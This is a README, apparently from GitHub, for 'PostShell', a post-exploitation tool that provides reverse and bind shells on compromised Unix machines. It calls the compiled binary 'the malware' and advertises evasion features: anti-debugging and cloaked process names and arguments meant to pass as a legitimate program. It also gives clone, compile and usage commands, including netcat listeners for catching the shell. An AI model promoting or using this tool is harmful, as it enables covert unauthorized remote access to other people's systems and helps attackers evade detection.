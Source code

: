 # PostShell
PostShell is a post-exploitation shell that includes both a bind and a back connect shell. It creates a fully interactive TTY which allows for job control. The stub size is around 14kb and can be compiled on any Unix like system.

# ScreenShots
![Screenshot](https://github.com/rek7/postshell/blob/master/img01.png)
Banner and interaction with shell after a connection is started.

## Why not use a traditional Backconnect/Bind Shell?
PostShell allows for easier post-exploitation by making the attacker less dependant on dependencies such as Python and Perl. It also incorporates both a back connect and bind shell, meaning that if a target doesn't allow outgoing connections an operator can simply start a bind shell and connect to the machine remotely. PostShell is also significantly less suspicious than a traditional shell due to the fact both the name of the processes and arguments are cloaked.

## Features
+ Anti-Debugging, if ptrace is detected as being attached to the shell it will exit.
+ Process Name/Thread names are cloaked, a fake name overwrites all of the system arguments and file name to make it seem like a legitimate program.
+ TTY, a TTY is created which essentially allows for the same usage of the machine as if you were connected via SSH.
+ Bind/Backconnect shell, both a bind shell and back connect can be created.
+ Small Stub Size, a very small stub(<14kb) is usually generated.

## Getting Started
1. Downloading: `git clone https://github.com/rek7/postshell`
2. Compiling: `cd postshell && sh compile.sh`
This should create a binary called "stub" this is the malware.

## Commands
```bash
$ ./stub
Bind Shell Usage: ./stub port
Back Connect Usage: ./stub ip port
$
```
## Example Usage
Backconnect:
```bash
$ ./stub 127.0.0.1 13377
```
Bind Shell:
```bash
$ ./stub 13377
```
## Recieving a Connection with Netcat
Recieving a backconnect:
```bash
$ nc -vlp port
```
Connecting to a bind Shell:
```bash
$ nc host port
```

## TODO:
+ Add domain resolution
